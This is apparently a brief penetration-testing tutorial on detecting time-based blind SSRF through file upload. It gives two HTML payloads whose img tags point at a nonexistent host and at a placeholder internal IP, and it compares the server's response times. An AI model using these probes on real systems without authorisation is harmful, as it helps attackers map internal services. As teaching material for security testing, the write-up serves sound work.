


Time Based SSRF
• We can also determine the existence of an SSRF vulnerability by observing time differences in responses.
• This method is also helpful for discovering internal services.
If the WebApplication let us to upload file.
1. Submit a valid HTML file and check how much time take the server to respond
 2. Submit malicious html that try to interact with INVALID ip
<!DOCTYPE html>
<html>
<body>
<b>Time-Based Blind SSRF</b>
<img src="http://blahblahblah.nonexistent.com">
</body>
</html>
It take 327 ms
3. Submit malicious html that try to interact with valid ip
<!DOCTYPE html>
<html>
<body>
<b>Time-Based Blind SSRF</b>
<img src="http://validIP">
</body>
</html>
We can see the service took
10 seconds to respond to the request.
This mean that something is occurring int the BackEndWe need to inspect the time that the Server take to Respond Carefully!